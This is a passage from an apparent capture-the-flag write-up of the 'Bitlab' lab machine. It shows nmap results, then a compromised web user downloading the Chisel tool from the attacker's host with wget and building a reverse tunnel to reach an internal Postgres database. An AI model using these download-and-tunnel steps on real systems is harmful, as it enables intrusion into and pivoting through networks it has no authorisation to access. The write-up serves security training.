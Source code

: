     Nmap done: 4 IP addresses (4 hosts up) scanned in 0.20 seconds
    

.2 and .3 are candidates to be Gitlab, and the postgres host is .5.

I also see that the local box is listening on 5432. This is a forward into the
postgres container, so I can talk to either.

### Tunneling

I want to check the database, but `psql` isn’t on the box. I did some testing,
and it looks like the firewall is blocking any incoming ports that aren’t
meant to be up, so I can’t just use `socat` to create a tunnel. I’ll upload
[Chisel](https://github.com/jpillora/chisel), my [go to for this kind of
thing](/2020/08/10/tunneling-with-chisel-and-ssf-update.html). I’ll upload it:

    
    
    www-data@bitlab:/dev/shm$ wget 10.10.14.30/chisel
    --2019-09-08 15:53:50--  http://10.10.14.30/chisel
    Connecting to 10.10.14.30:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 10459399 (10.0M) [application/octet-stream]
    Saving to: 'chisel'
    
    chisel                                                 100%[============================================================================================================================>]   9.97M   260KB/s    in 30s     
    
    2019-09-08 15:54:20 (337 KB/s) - 'chisel' saved [10459399/10459399]
    
    www-data@bitlab:/dev/shm$ chmod +x chisel
    

Now I’ll start the server on my host with the `--reverse` option so that I can
create a reverse tunnel:

    
    
    root@kali:/opt/chisel# ./chisel server -p 8000 --reverse
    2019/09/08 11:56:39 server: Reverse tunnelling enabled
    2019/09/08 11:56:39 server: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
    2019/09/08 11:56:39 server: Listening on 0.0.0.0:8000...
    

Now I’ll have the client on Bitlab connect to the server, and specify that I
want a reverse tunnel to listen on 5432 on my host and have that connect to
5432 on localhost:

    
    
    www-data@bitlab:/dev/shm$ ./chisel client 10.10.14.30:8000 R:5432:localhost:5432
    2019/09/08 15:56:50 client: Connecting to ws://10.10.14.30:8000
    2019/09/08 15:56:50 client: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
    2019/09/08 15:56:50 client: Connected (Latency 43.361952ms)
    

I can see the connection at the server as well:

    
    
    2019/09/08 11:57:30 server: proxy#1:R:0.0.0.0:5432=>localhost:5432: Listening 
    